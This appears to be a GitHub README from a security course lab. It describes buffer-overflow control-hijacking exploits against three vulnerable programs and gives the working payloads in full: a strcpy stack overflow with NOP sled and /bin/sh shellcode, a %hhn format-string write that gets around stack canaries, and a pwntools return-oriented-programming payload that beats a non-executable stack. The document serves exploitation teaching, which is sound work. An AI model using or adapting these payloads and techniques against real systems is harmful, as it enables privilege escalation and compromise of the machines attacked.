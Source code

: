 # Control Hijacking Attack
In this repository, I implemented some buffer overflow controlling hijacking attacks which all are described down below. You can find Executable Linkable Formats(ELF) of these
programs named "prog_vuln#" and corresponding inputs for each of them named "expoit#.sh" which were designed to overflow the buffers of program and rewrite some specific addresses
of the memory to change control flow of the program which will result in getting shell with sudo privileged.
## prog_vuln1
To perform this attack I used vulnerability of <b>strcpy()</b> function which does not check the length of strings before copy. As a result it will be possible to perform <b>buffer overflow</b> write some specific 
addresses in the stack and change the pointer to the start of shell code. You can see related commands in the following.
```
$(python -c 'print("\x90"*63 +
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x0
8\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "w"
*500 + "\x90\xf0\xff\xbf")')
```
## prog_vuln3
In this part there are some <b>canaries</b> (stack guard) in the address space of the program. So it isn't possible to overflow the program because all return addresses will be protected by these structures. To perform the attack I used <b>format stringing</b>. In this approach we exploit vulnerability of <b>printf()</b> function.   
We know that every time we use "%n"
in printf(), this function will write number of the bytes before this symbol at the top of stack. But It's not possible to enter these huge number of inputs to printf(), So I'll use "%hhn" that only writes the number of inputs in one byte of address which placed top of the stack. so we should sort all bytes of addresses which we want to write on and place the desired addressed in reverse order at the top of stack. you can see the designed input down below.
```
$(python -c
'print("\xb8\xfb\xff\xbf\xb7\xfb\xff\xbf\xb6\xfb\xff\xbf\xb5\xfb\xff\xbf\x9d\xfb\xff\xbf\xa4\xfb\xff\x
bf\xa0\xfb\xff\xbf\x9c\xfb\xff\xbf\xa1\xfb\xff\xbf\xa5\xfb\xff\xbf" + 160 * "w" + "%n%hhn%hhn" +
104 * "w" + "%hhn" + 11 * "w" + "%hhn" + 18 * "w" + "%hhn" + 35 * "w" + "%hhn" + 8 * "w" + "%hhn"
+ 64 * "w" +"%hhn" + 11 * "w" + "%hhn" + "%hhn" + 9 * "w")')
```
## prog_vuln4
In this part I used vulnerabilities of <b>scanf()</b> function which doesn't check whether input string match the space dedicated for it or not.  
In this program stack guards were deactivated but there is <b>NON-Executable Stack</b> protection. Since there is no canaries in the address space, we can change the return address of functions by causing overflow in the scanf() input. But unlike the prog_vuln1 because of NON-Executable Stack protection it's not possible to place the shell code in the scanf() input.  
To overcome this type of protection, I used <b>Return-oriented programming</b>. In this type of exploit we should find some suitable gadgets in the assembly code of the program and sort them to execute a shell code. In the below figure you can see arrangment of stack after we rewrite the return address of main with buffer overflow.  
<p align="center">
<img src="https://github.com/amir-sabzi/Network_Systems_Security/blob/master/Control_hijacking/stack.png" alt="drawing" width="500" align="center"/>
</p>
To perform discribed actions we should run a simple python code to write input in hex format in a file and then run the code with the input has been read from file. you can see this simple python script down below.
```
from pwn import *
payload = 16 * "a" + p64(0x7fffffffe468)+ p64(0x400683) + p64(0x601048) + p64(0x00000000004005e8)
f= open("in.txt","w+")
f.write(payload)
f.close()
```
